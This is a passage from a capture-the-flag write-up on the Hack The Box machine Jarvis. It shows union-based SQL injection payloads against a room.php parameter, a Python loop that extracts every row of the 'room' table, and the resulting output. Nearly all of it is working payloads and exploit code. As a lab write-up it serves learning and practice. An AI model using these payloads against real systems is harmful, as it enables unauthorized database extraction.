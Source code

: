 ```shell
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 4-- -
[+] Payload result: star
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 5-- -
[+] Payload result: image
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 6-- -
[+] Payload result: mini
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 7-- -
[-] No result :(
[-] Exploit failed... Abort!!
```

- Table `room` column names: `cod`, `name`, `price`, `descrip`, `star`, `image`, `mini`

**Exfiltrate all data from database `hotel` table `room`:**
```python
if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    for offsetPosition in range(100):
        payload = f"7 UNION ALL SELECT NULL,GROUP_CONCAT(cod,0x7c,name,0x7c,price,0x7c,descrip,0x7c,star,0x7c,image,0x7c,mini),NULL,NULL,NULL,NULL,NULL FROM room LIMIT 1 OFFSET {offsetPosition}-- -"
        isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
        if not isExploitSuccess:
            print('[-] Exploit failed... Abort!!')
            break

        print(f'[+] Payload result: {payloadResult}')
```

> Note: Hex `0x7c` is character `|`.

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:05:03(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,GROUP_CONCAT(cod,0x7c,name,0x7c,price,0x7c,descrip,0x7c,star,0x7c,image,0x7c,mini),NULL,NULL,NULL,NULL,NULL FROM room LIMIT 1 OFFSET 0-- -
[+] Payload result: 1|Superior Family Room|270|Superior room, perfect for luxury families.
Big room with a lot of extras||room-6.jpg| Perfect for traveling couples Breakfast included Price does not include VAT & services fee,2|Suite|149|Suite room is perfect||room-1.jpg| Only 10 rooms are available Breakfast included Price does not include VAT & services fee,3|Double Room|199|Perfect room for couples <3|
$

/ per night


Go to book!

[*] Payload: 7 UNION ALL SELECT NULL,GROUP_CONCAT(cod,0x7c,name,0x7c,price,0x7c,descrip,0x7c,star,0x7c,image,0x7c,mini),NULL,NULL,NULL,NULL,NULL FROM room LIMIT 1 OFFSET 1-- -
[-] No result :(
[-] Exploit failed... Abort!!
```
